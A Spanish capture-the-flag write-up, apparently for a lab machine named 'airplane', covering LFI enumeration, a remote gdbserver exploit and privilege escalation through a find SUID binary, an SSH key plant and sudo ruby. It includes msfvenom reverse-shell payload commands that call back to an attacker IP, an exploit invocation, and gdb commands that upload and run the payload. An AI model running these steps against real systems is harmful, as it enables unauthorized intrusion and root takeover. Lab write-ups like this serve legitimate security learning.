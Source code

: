Realizamos un escaneo con nmap y encontramos 3 servicios abiertos
![[Pasted image 20240613074419.png]]


Revisamos el puerto 8000 y encontramos que al intenetar acceder por ip nos muestra la url, asi que añadimos el dominio a la ip en nuestro archivo /etc/hosts
![[Pasted image 20240613074220.png]]

Una vez añadido si volvemos a la pagina vemos que ya tenemos acceso
![[Pasted image 20240613074300.png]]
![[Pasted image 20240613074321.png]]

Realizamos fuzzing web y no encontramos nada interesante
![[Pasted image 20240613085933.png]]

Al revisar la web encontramos que es vulnerable a LFI
![[Pasted image 20240613080635.png]]

Revisamos el fichero /etc/passwd y encontramos dos usuarios, carlos y hudson
![[Pasted image 20240613080807.png]]

Continuamos revisando y encontramos  que carlos pertenece al grupo sudo
![[Pasted image 20240613085637.png|250]]

Ahora revisaremos la carpeta de /proc que contiene la información sobre los procesos que se están ejecutando y los parámetros del kernel. El contenido del directorio proc es utilizado por una serie de herramientas para obtener información del sistema en tiempo de ejecución. Para automatizar este procesos tenemos es siguiente script:
[[Explotacion LFI con Script en python]]
![[Pasted image 20240613090153.png]]

Nos muestra muchisima información, vamos a filtrarla para que solo nos muestre las partes que contengan la palabra airplane
```Bash
cat process.txt | grep "airplane"
```
![[Pasted image 20240613090302.png]]

En la siguiente url tenemos información sobre el siguiente servicio
https://book.hacktricks.xyz/network-services-pentesting/pentesting-remote-gdbserver
gdbserver es una herramienta que permite depurar programas de forma remota. Se ejecuta junto al programa que necesita ser depurado en el mismo sistema, conocido como el "objetivo". Esta configuración permite al depurador de GNU conectarse desde una máquina diferente, el "host", donde se almacenan el código fuente y una copia binaria del programa depurado. La conexión entre gdbserver y el depurador puede hacerse sobre TCP o una línea serie, permitiendo configuraciones de depuración versátiles.

Ahora intentaremos obtener acceso desde este servicio, primero revisamos y encontramos un payload
![[Pasted image 20240613092509.png]]

Creamos el payload
```Bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.9.0.251 LPORT=4444 PrependFork=true -o pay.bin
```
![[Pasted image 20240613092819.png]]


Una vez creado el payload nos ponemos en escucha con netcat y ejecutamos el siguiente comando hasta obtener acceso, puede que necesitemos ejecutarlo varias veces
```Bash
python3 50539.py airplane.thm:6048 pay.bin
```
![[Pasted image 20240613093206.png]]

Y ya tenemos acceso a la maquina victima
![[Pasted image 20240613093258.png]]

Una vez dentro revisamos los permisos SUID
```Bash
find / -perm -4000 2>/dev/null
```
![[Pasted image 20240613105116.png]]

Revisandolos encontramos que ejecutando find obtendriamos acceso al usuario de Carlso
![[Pasted image 20240613105238.png]]

Revisamos el binario de find en la web de GTOFbins
![[Pasted image 20240613105333.png]]

Y al ejecutar el comando obtenemos una shell como Carlos
![[Pasted image 20240613105434.png]]

Estos son los permisos que hemos obtenido
![[Pasted image 20240613110119.png]]

Ahora buscaremos obtener una shell con el usuario de Carlos, para ello accederemos a la carpeta de ssh y añadiremos nuestra clave publica
![[Pasted image 20240613110051.png]]

Nos lo descargamos en la carpeta de .ssh de Carlos
![[Pasted image 20240613111657.png]]

Y ahora accedemos desde ssh
![[Pasted image 20240613111810.png]]
![[Pasted image 20240613111832.png]]

Revisamos los permisos que tenemos con sudo y vemos que podemos ejecutar ruby sin password
![[Pasted image 20240613112135.png]]

Para obtener la shell con privilegios de root tendremos que crear un archivo ruby el cual genere una shell y luego ejecutarlo desde root, para ello ejecutaremos los dos siguientes comandos y obtendremos los permisos de root
```
echo '"/bin/sh"' > /tmp/root.rb
sudo /usr/bin/ruby /root/../tmp/root.rb
```
![[Pasted image 20240613112802.png]]


------
# Pruebas post explotación

## Suid3num
Para ello primero nos descargamos la herramienta en nuestra maquina
```Bash
wget https://raw.githubusercontent.com/Anon-Exploiter/SUID3NUM/master/suid3num.py --no-check-certificate && chmod 777 suid3num.py
```
![[Pasted image 20240613113209.png]]

Lo cargamos en la maquina victima
![[Pasted image 20240613113314.png]]

Y ahora lo ejecutamos, como podemos ver nos automatiza el encontrarnos los binarios e indicarnos que comando ejecutar
![[Pasted image 20240613113410.png]]
![[Pasted image 20240613113428.png]]

------
# Explotación GDB
Creamos el payload y le asignamos permisos de ejecución
```bash
sudo msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.9.0.251 LPORT=4444 PrependFork=true -f elf -o binary.elf
```
![[Pasted image 20240613120316.png]]

Este comando es lo mismo que gdb pero en mi caso estamos usando un sistema aarch64 entonces no es compatible con gdb pero el funcionamiento es el mismo simplemente añadimos que especficamos la arquitectura, una vez ejecutado todos estos comandos obtendriamos acceso a la maquina vicitma
```
gdb-multiarch binary.elf
set architecture i386:x86-64
target extended-remote 10.10.127.37:6048
remote put binary.elf /tmp/binary.elf
set remote exec-file /tmp/binary.elf
run
```
![[Pasted image 20240613130854.png]]
![[Pasted image 20240613131116.png]]

